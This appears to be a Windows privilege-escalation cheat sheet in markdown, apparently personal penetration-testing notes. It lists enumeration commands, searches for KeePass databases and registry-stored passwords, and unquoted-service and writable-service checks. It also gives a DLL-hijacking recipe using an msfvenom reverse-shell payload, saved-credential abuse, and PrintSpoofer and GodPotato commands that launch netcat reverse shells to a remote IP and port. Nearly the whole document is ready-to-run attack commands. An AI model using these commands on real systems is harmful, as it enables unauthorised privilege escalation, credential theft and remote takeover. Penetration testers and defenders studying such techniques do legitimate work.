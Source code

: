 ### System and User Enumeration

```
#User
whoami /priv
net user <username>

#System
systeminfo
ipconfig
netstat -ano
```

### Search for Information
##### Searching Folders

```
#Specific File Types
Get-ChildItem -Path C:\<folder>\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini, *bk, *backup*, -File -Recurse -ErrorAction SilentlyContinue

#All Files in Folder
Get-ChildItem -Path C:\<folder>\ -File -Recurse -ErrorAction SilentlyContinue

#Specific file name
Get-ChildItem -Path C:\ -Filter '<filename>' -File -Recurse -ErrorAction SilentlyContinue

#Keepass Database
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
##### Searching History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```
### Automation
```
winPEAs
ADPEAs
```
### Services
##### Running Services
```
#Services
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

$AutoRun Services
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.StartMode -like 'Auto'}
```

##### Unquoted Service Paths
```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """

Get-WmiObject -Class Win32_Service | Where-Object { $_.State -eq 'Running' -and $_.PathName -notlike '*"*' } | Select-Object Name, PathName
```

##### Scheduled Tasks
```
schtasks /query /fo LIST /v
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State
```

##### Startup Apps

```
#If we can modify this directroy and add a shell. Then restart system.
 .\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup
```

##### Shutting Down System
```
#Check SeShutdownPrivilege enabled
whoami /priv  

#Shuts system down
shutdown /r /t 0
```

##### Checking Permissions
```
#Check file and folder
icacls "C:\<service.exe>"
icacls "C:\<folder>\"

#check service start / stop
net stop <service_name>
Stop-Service <service_name>
```

##### Service Configuration Writable
```
#See configuration
sc.exe qc <service_name>

#Modify Configuration
sc.exe config <service_name> <option>= <value>
```
##### DLL Hijacking
```
1. Check can service be stopped and started.
2. Copy the service executable to your host and use ProcMon to monitor what DLLs the executable tries to run.
	Filter NAME NOT FOUND
	Filter .DLL
3. Check folder or path it is searching is writable.
4. Upload malicious executable. (msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f dll -o /tools/hijackme.dll)
5. Restart the service.
```

### Kernel Exploits

```
Methodology
1. Enumerate Windows version / patch level. (systeminfo)
2. Find matching exploits. (Google, ExploitDB, GitHub)
3. Compile and run.

Tools
- Windows Exploit Suggester - wesng
- Precompiled Kernel Exploits - SecWiki
- Watson - rasta-mouse

Notes
- Be careful these can be unstable and may crash the system.
```


### Passwords

##### Registry

```
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

##### Saved Creds
```
cmdkey /list
run as /savecred /user:<username> <reverse_shell>
```

### Token Impersonation

##### Printer Spoofer

```
#Print Spoof
.\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"

#God Potato
.\GodPotato-NET4.exe -cmd "powershell.exe"
.\GodPotato-NET4.exe -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.45.217 4444"
```
